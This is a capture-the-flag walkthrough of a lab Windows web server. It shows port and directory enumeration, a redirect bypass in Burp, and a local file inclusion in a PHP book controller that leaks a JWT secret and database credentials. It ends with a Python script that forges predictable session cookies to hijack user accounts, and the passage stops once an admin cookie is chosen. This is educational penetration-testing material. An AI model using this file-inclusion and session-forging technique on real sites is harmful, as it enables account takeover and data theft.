# Breadcrumps
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.228 --min-rate 5000 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 19:47 BST
Warning: 10.10.10.228 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.228 (10.10.10.228)
Host is up (0.096s latency).
Not shown: 62260 filtered tcp ports (no-response), 3270 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp  open  https
445/tcp  open  microsoft-ds
3306/tcp open  mysql
5040/tcp open  unknown
```
```
└─$ nmap -Pn -p22,80,135,139,443,445,3306,5040 -sC -sV 10.10.10.228 --min-rate 5000 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 19:59 BST
Nmap scan report for 10.10.10.228 (10.10.10.228)
Host is up (0.15s latency).

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:d0:b8:81:55:54:ea:0f:89:b1:10:32:33:6a:a7:8f (RSA)
|   256 1f:2e:67:37:1a:b8:91:1d:5c:31:59:c7:c6:df:14:1d (ECDSA)
|_  256 30:9e:5d:12:e3:c6:b7:c6:3b:7e:1e:e7:89:7e:83:e4 (ED25519)
80/tcp   open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/8.0.1)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
|_http-title: Library
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/8.0.1)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: Library
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
445/tcp  open  microsoft-ds?
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL, WMSRequest: 
|_    Host '10.10.16.9' is not allowed to connect to this MariaDB server
5040/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94%I=7%D=9/17%Time=65074C9C%P=x86_64-pc-linux-gnu%r(NU
SF:LL,49,"E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.9'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(WMSRequest,49
SF:,"E\0\0\x01\xffj\x04Host\x20'10\.10\.16\.9'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -39s
| smb2-time: 
|   date: 2023-09-17T19:01:46
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required


```

- Port `80`, `443`


- `gobuster`
```
└─$ gobuster dir -u https://10.10.10.228/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.228/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/09/17 20:13:14 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2368]
/books                (Status: 301) [Size: 338] [--> https://10.10.10.228/books/]
/php                  (Status: 301) [Size: 336] [--> https://10.10.10.228/php/]
/portal               (Status: 301) [Size: 339] [--> https://10.10.10.228/portal/]
/css                  (Status: 301) [Size: 336] [--> https://10.10.10.228/css/]
/includes             (Status: 301) [Size: 341] [--> https://10.10.10.228/includes/]
/Index.php            (Status: 200) [Size: 2368]
/db                   (Status: 301) [Size: 335] [--> https://10.10.10.228/db/]
/js                   (Status: 301) [Size: 335] [--> https://10.10.10.228/js/]
/Books                (Status: 301) [Size: 338] [--> https://10.10.10.228/Books/]
/examples             (Status: 503) [Size: 402]
/licenses             (Status: 403) [Size: 421]
/PHP                  (Status: 301) [Size: 336] [--> https://10.10.10.228/PHP/]
/%20                  (Status: 403) [Size: 302]
/INDEX.php            (Status: 200) [Size: 2368]
/Portal               (Status: 301) [Size: 339] [--> https://10.10.10.228/Portal/]
/*checkout*.txt       (Status: 403) [Size: 302]
/*checkout*           (Status: 403) [Size: 302]
/*checkout*.php       (Status: 403) [Size: 302]
/CSS                  (Status: 301) [Size: 336] [--> https://10.10.10.228/CSS/]
/JS                   (Status: 301) [Size: 335] [--> https://10.10.10.228/JS/]
/phpmyadmin           (Status: 403) [Size: 302]
/webalizer            (Status: 403) [Size: 302]
/*docroot*.txt        (Status: 403) [Size: 302]
/*docroot*            (Status: 403) [Size: 302]
/*docroot*.php        (Status: 403) [Size: 302]
/DB                   (Status: 301) [Size: 335] [--> https://10.10.10.228/DB/]
/*.php                (Status: 403) [Size: 302]
/*.txt                (Status: 403) [Size: 302]
/*                    (Status: 403) [Size: 302]
/con.php              (Status: 403) [Size: 302]
/con.txt              (Status: 403) [Size: 302]
/con                  (Status: 403) [Size: 302]
```
- `feroxbuster`
```
└─$ feroxbuster -u http://10.10.10.228 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt   

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.228
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       33w      298c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       30w      301c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       30w      334c http://10.10.10.228/css => http://10.10.10.228/css/
301      GET        9l       30w      333c http://10.10.10.228/js => http://10.10.10.228/js/
301      GET        9l       30w      339c http://10.10.10.228/includes => http://10.10.10.228/includes/
200      GET        0l        0w        0c http://10.10.10.228/js/main.js
200      GET       66l       80w      853c http://10.10.10.228/css/main.css
200      GET       89l      221w     4727c http://10.10.10.228/php/books.php
200      GET        5l       13w      196c http://10.10.10.228/includes/footer.php
301      GET        9l       30w      333c http://10.10.10.228/db => http://10.10.10.228/db/
200      GET       68l      146w     1937c http://10.10.10.228/js/books.js
200      GET        0l        0w        0c http://10.10.10.228/includes/bookController.php
301      GET        9l       30w      334c http://10.10.10.228/php => http://10.10.10.228/php/
200      GET     4586l     7794w    73117c http://10.10.10.228/css/all.css
200      GET       45l      118w     2368c http://10.10.10.228/
200      GET        0l        0w        0c http://10.10.10.228/db/db.php
301      GET        9l       30w      337c http://10.10.10.228/portal => http://10.10.10.228/portal/
301      GET        9l       30w      336c http://10.10.10.228/books => http://10.10.10.228/books/
301      GET        9l       30w      346c http://10.10.10.228/portal/includes => http://10.10.10.228/portal/includes/
301      GET        9l       30w      345c http://10.10.10.228/portal/uploads => http://10.10.10.228/portal/uploads/
200      GET        5l       13w      196c http://10.10.10.228/portal/includes/footer.php
200      GET        4l       49w      375c http://10.10.10.228/books/book9.html
200      GET        4l       62w      400c http://10.10.10.228/books/book7.html
200      GET        4l       67w      468c http://10.10.10.228/books/book12.html
200      GET        4l       61w      379c http://10.10.10.228/books/book3.html
200      GET        4l       58w      446c http://10.10.10.228/books/book10.html
200      GET        4l       63w      435c http://10.10.10.228/books/book11.html
200      GET        4l       62w      431c http://10.10.10.228/books/book8.html
301      GET        9l       30w      344c http://10.10.10.228/portal/assets => http://10.10.10.228/portal/assets/
200      GET        4l       64w      465c http://10.10.10.228/books/book14.html
301      GET        9l       30w      340c http://10.10.10.228/portal/db => http://10.10.10.228/portal/db/
200      GET        0l        0w        0c http://10.10.10.228/portal/includes/usersController.php
200      GET        0l        0w        0c http://10.10.10.228/portal/includes/fileController.php
200      GET        0l        0w        0c http://10.10.10.228/portal/includes/issuesController.php
301      GET        9l       30w      341c http://10.10.10.228/portal/php => http://10.10.10.228/portal/php/
200      GET        0l        0w        0c http://10.10.10.228/portal/db/db.php
200      GET       82l      189w     4395c http://10.10.10.228/portal/php/admins.php
302      GET        0l        0w        0c http://10.10.10.228/portal/php/issues.php => ../auth/login.php
302      GET        2l       13w      148c http://10.10.10.228/portal/php/files.php => ../auth/login.php
302      GET        0l        0w        0c http://10.10.10.228/portal/php/users.php => ../auth/login.php
200      GET       66l       80w      853c http://10.10.10.228/portal/assets/css/main.css
200      GET       12l       23w      192c http://10.10.10.228/portal/assets/css/style.css
200      GET        0l        0w        0c http://10.10.10.228/portal/assets/js/main.js
200      GET       23l       38w      585c http://10.10.10.228/portal/assets/js/files.js
200      GET       53l      299w    24708c http://10.10.10.228/portal/assets/webfonts/fa-regular-400.woff2
200      GET     4586l     7794w    73117c http://10.10.10.228/portal/assets/css/all.css
200      GET      273l     1751w   140313c http://10.10.10.228/portal/assets/webfonts/fa-brands-400.woff2
503      GET       11l       44w      401c http://10.10.10.228/examples
200      GET     2920l    15147w   235832c http://10.10.10.228/portal/assets/webfonts/fa-solid-900.eot
200      GET      376l     2014w   164046c http://10.10.10.228/portal/assets/webfonts/fa-brands-400.woff
200      GET      349l     2161w   189029c http://10.10.10.228/portal/assets/webfonts/fa-solid-900.woff
200      GET     1839l     7533w   149215c http://10.10.10.228/portal/assets/webfonts/fa-brands-400.ttf
200      GET     1839l     7547w   149529c http://10.10.10.228/portal/assets/webfonts/fa-brands-400.eot
200      GET     3637l    76781w   730302c http://10.10.10.228/portal/assets/webfonts/fa-brands-400.svg
200      GET     2919l    15134w   235536c http://10.10.10.228/portal/assets/webfonts/fa-solid-900.ttf
301      GET        9l       30w      344c http://10.10.10.228/portal/vendor => http://10.10.10.228/portal/vendor/
200      GET      379l     1897w    40385c http://10.10.10.228/portal/assets/webfonts/fa-regular-400.eot
200      GET       70l      366w    30184c http://10.10.10.228/portal/assets/webfonts/fa-regular-400.woff
200      GET      379l     1885w    40081c http://10.10.10.228/portal/assets/webfonts/fa-regular-400.ttf
200      GET      336l     1782w   145509c http://10.10.10.228/portal/assets/webfonts/fa-solid-900.woff2
200      GET        0l        0w        0c http://10.10.10.228/portal/vendor/autoload.php
200      GET      805l    17194w   144715c http://10.10.10.228/portal/assets/webfonts/fa-regular-400.svg
200      GET      164l      307w     6074c http://10.10.10.228/portal/vendor/composer/installed.json
200      GET        0l        0w        0c http://10.10.10.228/portal/vendor/composer/installed.php
200      GET        0l        0w        0c http://10.10.10.228/portal/vendor/composer/ClassLoader.php
200      GET        0l        0w        0c http://10.10.10.228/portal/vendor/composer/platform_check.php
200      GET        0l        0w        0c http://10.10.10.228/portal/vendor/composer/autoload_static.php
200      GET        0l        0w        0c http://10.10.10.228/portal/vendor/composer/autoload_real.php
200      GET        0l        0w        0c http://10.10.10.228/portal/vendor/composer/InstalledVersions.php
200      GET       21l      168w     1070c http://10.10.10.228/portal/vendor/composer/LICENSE
200      GET        0l        0w        0c http://10.10.10.228/portal/vendor/composer/autoload_namespaces.php
200      GET     5015l   105316w   914125c http://10.10.10.228/portal/assets/webfonts/fa-solid-900.svg
200      GET        0l        0w        0c http://10.10.10.228/portal/vendor/composer/autoload_classmap.php
200      GET        0l        0w        0c http://10.10.10.228/portal/vendor/composer/autoload_psr4.php
403      GET       11l       47w      420c http://10.10.10.228/licenses
403      GET       11l       47w      420c http://10.10.10.228/server-status
```

## Foothold 
- `db` endpoint has `db.php` file
  - But I can't open it



- We also have `portal` endpoint



- Clicking `helper` shows us admins
  - Potential usernames



- Let's register a user




- We have `issues` on `/portal/pip/issues.php`


- We have users on `/portal/php/users.php`


- When we click `order pizza` we have an popup message


- `File management` is redirected to `index.php`
  - `Burp` returns code `302 Found` and redirect to `../index.php`



- Let's change to `200 OK` and we receive the page



- But we can't upload anything



- Controllers responsible for `portal` endpoint


- In `issues` we saw the task to store the books in database
  - We also saw the books in `feroxbuster`
  - Let's navigate to http://10.10.10.228/php/books.php
  


- Look for existing book
  - For example `Adventures of Tom Sawyer`
    - http://10.10.10.228/books/book3.html






- Check the requests in `Burp`
  - We a potential `LFI` in `/includes/bookController.php` via `book` parameter



- Let's try getting `index.php`
  - Looks like it's working



- Now we need to go through source code
  - Eventually we will find interesting `authController.php` in `/portal/login.php`


- In `authController.php` we see a secret key for signing `jwt` token



- We also have creds in `db/db.php`
```
<?php

$host="localhost";
$port=3306;
$user="bread";
$password="jUli901";
$dbname="bread";

$con = new mysqli($host, $user, $password, $dbname, $port) or die ('Could not connect to the database server' . mysqli_connect_error());
?>

```

- We need to craft `PHPSESSID`
  - `makesession` is defined in `cookies.php` 
  - And `jwt`
```
...
  if($valid){
      session_id(makesession($username));
      session_start();

      $secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';
      $data = array();

      $payload = array(
          "data" => array(
              "username" => $username
      ));

      $jwt = JWT::encode($payload, $secret_key, 'HS256');
      
      setcookie("token", $jwt, time() + (86400 * 30), "/");

      $_SESSION['username'] = $username;
      $_SESSION['loggedIn'] = true;
      if($userdata[0]['position'] == ""){
          $_SESSION['role'] = "Awaiting approval";
      } 
      else{
          $_SESSION['role'] = $userdata[0]['position'];
      }
      
      header("Location: /portal");
...
```
```
...
function makesession($username){
  $max = strlen($username) - 1;
  $seed = rand(0, $max);
  $key = "s4lTy_stR1nG_".$username[$seed]."(!528.\/9890";
  $session_cookie = $username.md5($key);

  return $session_cookie;
```

- Let's write a script to find a valid sookie
```
import hashlib
import requests


users = ["alex", "paul", "jack", "olivia", "john", "emma", "william", "lucas", "sirine", "juliette", "support"]

for user in users:
	for ch in user:
		hash = hashlib.md5(f"s4lTy_stR1nG_{ch}(!528./9890".encode('utf-8')).hexdigest()
		cookie = f"{user}{hash}"	
		r = requests.get('http://10.10.10.228/portal/index.php', cookies={"PHPSESSID": cookie})
		if user in r.text.lower():
			print(f"Found => {user}: {cookie}")

```

- We have hits
```
└─$ python3 cookie_check.py
Found => paul: paul47200b180ccd6835d25d034eeb6e6390
Found => olivia: oliviaaa0aa8b0e94759562a5854d69b9e6b79
Found => john: john5815c66675415230039fb4616cd0dce8
```

- I'll use `paul`'s cookie, since he's an admin

